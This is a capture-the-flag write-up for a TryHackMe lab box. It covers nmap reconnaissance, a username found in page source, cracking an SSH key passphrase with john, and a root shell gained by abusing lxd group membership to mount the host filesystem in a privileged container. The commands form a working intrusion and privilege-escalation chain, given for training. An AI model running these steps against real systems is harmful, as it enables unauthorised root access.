



# [GamingServer](https://tryhackme.com/room/gamingserver)

First order of business, `nmap`.

```
# Nmap 7.80 scan initiated Tue Sep  1 14:49:37 2020 as: nmap -sC -sV -oN nmap -vvv -p 22,80 10.10.71.124
Nmap scan report for box.ip (10.10.71.124)
Host is up, received syn-ack (0.30s latency).
Scanned at 2020-09-01 14:49:38 +07 for 17s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  1 14:49:55 2020 -- 1 IP address (1 host up) scanned in 18.11 seconds
```

Looking at the source code of the landing page, you'll see a comment addressed to "John". Looks like a possible username. If you then go to "Dragon lore", followed by "Uploads", you'll see 3 files.





Here, the file `dict.lst` gives us what looks like a password list.

Next step of recon: `gobuster` (or your preferred directory busting tool). This gives us the `/secret` directory which holds the file `secretKey`. We had SSH listening on port 22 so let's try using the key for it with the previously found username "john".

```sh
$ ssh -i secretKey john@10.10.35.210
Enter passphrase for key 'secretKey':
```

So we need a password to use this key. We were given a password list earlier to let's try cracking they key using that as the wordlist.

```sh
$ ssh2john secretKey > secretKey.hash
$ john --wordlist=dict.lst secretKey.hash
```

This gives us the password for the key, so we can now log in to SSH.

Running `id` shows that we're in the `lxd` group

```sh
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

[Hacktricks has an article about privilege escalation with `lxd`/`lxc`.](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation). I did the following to pull a container from the internet and put it on the target machine.

```sh
# Local machine
lxc init ubuntu:16.04 test -c security.privileged=true
# the following gives us a .squashfs & a meta-*.tar.xz file
lxc export <IMAGE_HASH>
python -m http.server

# victim machine
# Get the above squashfs & meta-*.tar.xz files
lxc image import meta.tar.xz image.squashfs --alias test
lxc init test test -c security.privileged=true
lxc config device add test host-root disk source=/ path=/mnt/root recursive=true
lxc start test
lxc exec test /bin/sh
```

At this point, you should have a root shell inside the `test` container. Since we mounted the host's `/` to `/mnt/root` in the container, we can read/write to every file in the host machine from inside the container. We can get the root flag in `/mnt/root/root`.

```sh
# ls /mnt/root/root
root.txt
```
